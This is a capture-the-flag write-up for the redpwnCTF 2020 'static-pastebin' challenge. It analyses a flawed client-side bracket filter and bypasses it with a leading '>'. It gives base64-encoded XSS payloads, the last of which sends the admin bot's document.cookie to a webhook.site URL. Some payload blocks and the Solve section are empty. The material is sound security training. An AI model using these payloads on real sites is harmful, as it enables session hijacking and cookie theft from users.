

### Challenge
```
web/static-pastebin
BrownieInMotion

I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here

Site: static-pastebin.2020.redpwnc.tf
```

### Recon
* There are 2 urls here to investigate

* First one, https://static-pastebin.2020.redpwnc.tf/ where whatever you paste (filling the text box) is base64 encoded and included in the url
```
Hi in the textbox --> https://static-pastebin.2020.redpwnc.tf/paste/#aGk=
```

* Second one, https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin, there is recaptcha here that is verified so its tough to script this, we will do manually ( instead of worrying of defeating it )
```
Once you verify captcha and submit the URL input (https://google.com) --> 302 to location: /submit?challenge=static-pastebin&url=https%3A%2F%2Fgoogle.com&message=The%20admin%20has%20visited%20your%20URL.
```

* Adding wehook url makes the admin-bot to visit the link. So its a classic cookie stealing maybe?

* Assuming, stealing cookie --> I suspect the flow to be,
 1. create a pastebin with XSS payload to steal cookie and send to webhook or local server
 2. Use this link in admin-bot
 3. steal the cookie

* Trying for XSS payloads in pastebin. There is a client side validator that removed `<` from the text. Example, using ``

```
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

* Giving one more try by directly using the base64 encoded version within the url without pasting via pastebin. ( Checking validation occuring while upload vs happening while it is downloaded )

* clean() looks to be executed when the base64 decoded version is returned.
  
* First, figuring out the proper XSS payload that bypasses this check and works. Right away trying some known knowns,
  * HTML encoded does not work --> `&lt;/TITLE&gt;&lt;SCRIPT&gt;alert(\"XSS\");&lt;/SCRIPT&gt;`
  * Hex encoded does not execute XSS
  * UTF8 encoding

* Right away using known knowns like above is wrong. Rethinking about the logic --> negating first should work using `>` to negate initially makes the payload work --> 
```
base64.b64encode(">")
'PjxpbWcgc3JjPXhzcyBvbmVycm9yPWFsZXJ0KDEpPg=='
```

* Now, create payload to steal cookie of admin and send to webhook site. ( Get webhook site link )
```
>
```

* Get base64 encoded version of it, genereate the url and send it to admin-bot to receive the flag
```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXhzcyBvbmVycm9yPWZldGNoKCJodHRwczovL3dlYmhvb2suc2l0ZS84MjkxNzhiZC1iOTQwLTQzMDEtOWRlOC1mZDU0ZGExZWYwOGQ/Y29va2llPSIuY29uY2F0KGRvY3VtZW50LmNvb2tpZSkpPg==
```

### Solve


